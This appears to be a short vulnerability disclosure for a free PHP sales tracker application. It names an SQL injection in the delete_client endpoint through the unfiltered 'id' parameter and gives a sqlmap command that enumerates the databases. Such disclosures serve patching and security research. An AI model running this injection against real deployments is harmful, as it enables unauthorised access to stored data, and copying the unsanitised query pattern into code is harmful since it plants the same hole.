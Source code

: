 Download sourcecode from https://www.sourcecodester.com/php/16061/sales-tracker-management-system-using-php-free-source-code.html
Deploy the system
The sql injection url: http://192.168.131.135/php-sts/classes/Master.php?f=delete_client
 Vulnerability trigger parameter: id
sourcecode:
![sts3-11](https://user-images.githubusercontent.com/127364570/223948598-6e6f90d8-527c-4468-ba59-014ee377374c.JPG)

The delete_client  function received the parameter and  there is no filtering operation for parameters.  Directly compose sql statements for database operation.  This causes sql injection.

![sts3-1](https://user-images.githubusercontent.com/127364570/223948677-83e541a6-8778-4d9d-9df8-ae1b5a345eb4.JPG)


sqlmap:  sqlmap.py -r c:\tmp\sts-1.txt -p id --risk 2 --dbs

![sts3-2](https://user-images.githubusercontent.com/127364570/223949497-dced8985-a7f9-44f8-b53f-16b242fcef9d.JPG)

![sts3-3](https://user-images.githubusercontent.com/127364570/223949520-a36f1521-b996-41c0-8d9d-335d2c0b4e59.JPG)

